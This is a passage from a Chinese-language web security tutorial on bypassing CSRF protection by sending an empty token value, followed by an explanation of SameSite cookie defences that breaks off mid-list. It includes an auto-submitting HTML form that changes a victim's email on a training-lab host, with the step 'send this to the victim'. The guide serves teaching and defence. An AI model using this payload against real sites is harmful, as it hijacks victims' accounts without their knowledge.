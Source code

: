 ```

```



## 绕过方法 - 7：在 csrf 令牌中发送空值。

```
测试用例：CSRF 令牌的验证取决于令牌值

1. 与功能交互并拦截请求。
2. 将此请求发送到中继器。
3. 添加空的 CSRF 参数并生成 CSRF POC
4. 根据您的偏好进行编辑，例如：

<!DOCTYPE html>
<html>
<!-- CSRF PoC - 由 Burp Suite i0 SecLab 插件生成 -->
<body>
<form method="POST" action="https://ac8a1fbd1e6d76ae806817f900d50032.web-security-academy.net:443/email/change-email">
<input type="text" name="email" value="natsu@natsu.com">
</form>
<script>
document.forms[0].submit();
</script>
</body>
</html>

5. 完成，将此内容发送给受害者。
```



# 防御

- 使用 SameSite Cookie 防御 CSRF

  - SameSite 属性可用于控制跨站请求中是否提交 Cookie 以及如何提交。通过在会话 Cookie 上设置该属性，应用程序可以阻止浏览器默认自动将 Cookie 添加到请求中，无论请求来自何处。

  - 当服务器发出 Cookie 时，SameSite 属性会被添加到 Set-Cookie 响应头中，该属性可以赋值两个值：Strict 或 Lax。例如：
    - SetCookie: SessionId=sYMnfCUrAlmqVVZn9dqevxyFpKZt30NN; SameSite=Strict;
    - SetCookie: SessionId=sYMnfCUrAlmqVVZn9dqevxyFpKZt30NN; SameSite=Lax;

- 如果 SameSite 属性设置为 Strict，则浏览器不会在来自其他站点的任何请求中包含该 Cookie。这是最有效的防御选项，但它可能会损害用户体验，因为如果已登录用户点击第三方链接进入某个网站，则他们看起来似乎未登录，需要重新登录才能以正常方式与该网站交互。

- 如果 SameSite 属性设置为 Lax，则浏览器将在来自其他网站的请求中包含 Cookie，但前提是满足以下两个条件：

- 请求使用 GET 方法。使用其他方法（例如 POST）的请求将不包含 Cookie。

- 请求由用户进行顶级导航（例如点击链接）生成。其他请求（例如由脚本发起的请求）将不包含 Cookie。

- 在 Lax 模式下使用 SameSite Cookie 确实可以部分防御 CSRF 攻击，因为成为 CSRF 攻击目标的用户操作通常使用 POST 方法实现。这里有两个重要的注意事项：
